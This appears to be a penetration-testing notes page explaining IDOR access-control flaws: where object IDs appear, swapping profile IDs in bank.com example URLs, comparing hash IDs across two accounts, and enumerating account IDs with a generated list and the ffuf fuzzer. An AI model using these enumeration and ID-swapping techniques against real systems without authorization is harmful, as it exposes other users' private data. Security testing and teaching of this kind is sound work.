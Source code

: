 # IDOR

IDOR (Insecure Direct Object Reference) is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

The ID can be write in **different ways**:

* **Clear-Text**: is most easy way to change that
* **Base64**: using encoded base64, but this we can replicate the encoded base64 with another id
* **Hash**: with the hash we cannot replicate the id but we can use 2 account to test the IDOR vuln

The ID we can **find in this place**:

* **URL** ⇒ /details?user\_id=123
* **PAGE** ⇒ /123/details
*   **HTTP Request to find the parameters**\


    <figure><img src="../../../../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

## ID URL parameter

Most common is to change the profile, changing the `id` parameter into a URL.

```bash
 # our profile id
 http://bank.com/profile?user_id=1305
 http://bank.com/profile/1305/details
 
 # milionaire's profile
 http://bank.com/profile?user_id=9999
 http://bank.com/profile/9999/details
```

### Use 2 account

When we have a hash ID, to test this vulnerability we can create 2 account and invert the hash id.

```bash
# user 1 id = 123
http://bank.com/user_id=202cb962ac59075b964b07152d234b70

# user 2 id = 999
http://bank.com/user_id=b706835de79a2b4e80506f582af3676a

# invert the user 1 user_id to try get user 2 information
http://bank.com/user_id=b706835de79a2b4e80506f582af3676a
```



### Create ID list and Fuzzing

If we found a IDOR and the id is a plain-text integer, we can craft a list and using fuff tool we can discover all active account.

{% code title="Craft id_list" %}
```bash
python3 -c 'for i in range(1,2001): print(i)' > id_list.txt
```
{% endcode %}

{% code title="Active ID discovering" %}
```bash
fuff -u 'http://domain.com/info?id=FUZZ' -w id_list.txt -fs $RESP_SIZE | grep FUZZ
```
{% endcode %}

